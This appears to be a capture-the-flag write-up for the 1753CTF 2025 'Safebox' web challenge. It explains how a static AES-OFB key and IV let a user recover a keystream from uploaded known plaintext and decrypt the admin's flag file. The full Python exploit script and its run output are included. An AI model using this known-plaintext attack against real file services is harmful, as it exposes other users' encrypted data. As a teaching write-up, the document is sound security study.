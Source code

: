 ```yaml
---
title: "Safebox"
description: "Your files. Encrypted at rest. Premium accounts available soon. // careful, this app is resetting every 15 minutes" 
pubDate: 2025-04-28
ctf: "1753CTF 2025"
category: "web"
author: "sealldev"
section: "CTFs"
image: "images/25-1753ctf/icon.png"
tags: ["aes", "xor"]
---
```


This challenge provides JavaScript source code.

The premise is, the application allows you to register and login as a user and upload files.

The `admin` user has uploaded a `flag.txt`:
```js
(async () => {
    await fs.mkdir(uploadsDir, { recursive: true });
    const items = await fs.readdir(uploadsDir);
    for(item of items) await fs.rm(path.join(uploadsDir, item), { recursive: true, force: true });

    const flagFile = await fs.readFile(path.join(__dirname, 'flag.txt'));
    uploadFile('admin', 'flag.txt', flagFile)
})();
```

We can retrieve the contents of the file by visiting the SHA256 hash of the username of the user (in this case `admin`), so the flag is retrieveable at `/files/8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918/flag.txt`.

The issue is the flag is encrypted... So how do we decrypt it?

A few key codeblocks of note:
```js
function encrypt(buffer, key, iv) {
    const cipher = crypto.createCipheriv('aes-256-ofb', key, iv);
    let encrypted = cipher.update(buffer);
    encrypted = Buffer.concat([encrypted, cipher.final()]);
    return encrypted;
}
```

The application encrypts using the `aes-256-ofb` algorithm:

```js

const uploadFile = async (username, fileName, buffer) => { 

    const key = Buffer.from(process.env.ENCRYPTION_KEY, 'hex');
    const iv = Buffer.from(process.env.ENCRYPTION_IV, 'hex');
    ...
```

And uploaded files use a static IV!

The idea is that it is essentially an XOR operation now that the IV and Key don't change, so we can upload a file with a known plaintext of all A's, then use that against the flag.txt file.

A simple script can be used to automate this process:
```python
import requests
import hashlib
import base64
import random
import string

base_url = 'https://safebox-1bbcbadc1e5d.1753ctf.com/'

def generate_random_string(length=12, include_special=False):
    chars = string.ascii_letters + string.digits
    if include_special:
        chars += string.punctuation.replace('"', '').replace("'", "")
    return ''.join(random.choice(chars) for _ in range(length))

def xor_bytes(bytes1, bytes2):
    return bytes(a ^ b for a, b in zip(bytes1, bytes2))

def perform_attack():
    try:
        username = generate_random_string(random.randint(8, 12))
        password = generate_random_string(random.randint(12, 16))
        filename = generate_random_string(random.randint(6, 10)) + '.dat'
        
        print(f"Username: {username}")
        print(f"Password: {password}")
        print(f"Filename: {filename}")

        print('Registering...')
        register_response = requests.post(f'{base_url}/api/register', json={
            'username': username,
            'password': password
        })
        register_data = register_response.json()
        token = register_data['token']
        print(f'Token: {token}')

        known_plaintext = b'A' * 9999
        known_plaintext_b64 = base64.b64encode(known_plaintext).decode('utf-8')

        print(f'Uploading {filename}...')
        upload_response = requests.post(
            f'{base_url}/api/upload', 
            json={'fileName': filename, 'b64file': known_plaintext_b64},
            headers={'X-Token': token}
        )
        print('Uploaded')

        attacker_folder_hash = hashlib.sha256(username.encode()).hexdigest()
        print(f'Folder hash: {attacker_folder_hash}')

        print('Downloading our file...')
        encrypted_file_response = requests.get(
            f'{base_url}/files/{attacker_folder_hash}/{filename}',
            headers={'X-Token': token}
        )
        encrypted_data = encrypted_file_response.content

        print('Calculating keystream...')
        keystream = xor_bytes(encrypted_data, known_plaintext[:len(encrypted_data)])
        print(f'Keystream calculated')

        admin_folder_hash = hashlib.sha256(b'admin').hexdigest()
        print(f'Admin folder hash: {admin_folder_hash}')

        print('Downloading flag...')
        encrypted_flag_response = requests.get(
            f'{base_url}/files/{admin_folder_hash}/flag.txt',
            headers={'X-Token': token}
        )
        encrypted_flag = encrypted_flag_response.content

        print('Decrypting flag...')
        usable_keystream = keystream[:len(encrypted_flag)]
        
        decrypted_flag = xor_bytes(encrypted_flag, usable_keystream)
        print(f'Decrypted flag: {decrypted_flag.decode("utf-8", errors="ignore")}')

        with open('decrypted_flag.txt', 'wb') as f:
            f.write(decrypted_flag)
        print('Flag saved to decrypted_flag.txt')

    except Exception as e:
        print(f'Attack failed: {str(e)}')
        import traceback
        traceback.print_exc()

if __name__ == '__main__':
    perform_attack()
```

Executing the script, we get the flag!
```
$ python3 script2.py
Username: C0WbFwxL
Password: Yc5MAFTvOh5qB
Filename: s4sbeZyU.dat
Registering...
Token: d7f5496dd9b7a9476862e6b4d9ed6e5243cda1265fb65dca5abf586871b11e06
Uploading s4sbeZyU.dat...
Uploaded
Folder hash: 7e59f49f9b469520a593ac7dcf46fee9e0b0b5a2296cc04d738e21c05d448393
Downloading file...
Calculating keystream...
Keystream calculated
Admin folder hash: 8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918
Downloading flag...
Decrypting flag...
Decrypted flag: Well, good this file is encrypted, cause in any other
case someone could just come here and steal my valuable
flag. The flag is 1753c{encrypt3d_but_n0t_s0000_s4fe_b0x}. Cool, huh?

Yes it is!

Sincerely yours,
Mr. Admin
Flag saved to decrypted_flag.txt
```

Flag: `1753c{encrypt3d_but_n0t_s0000_s4fe_b0x}`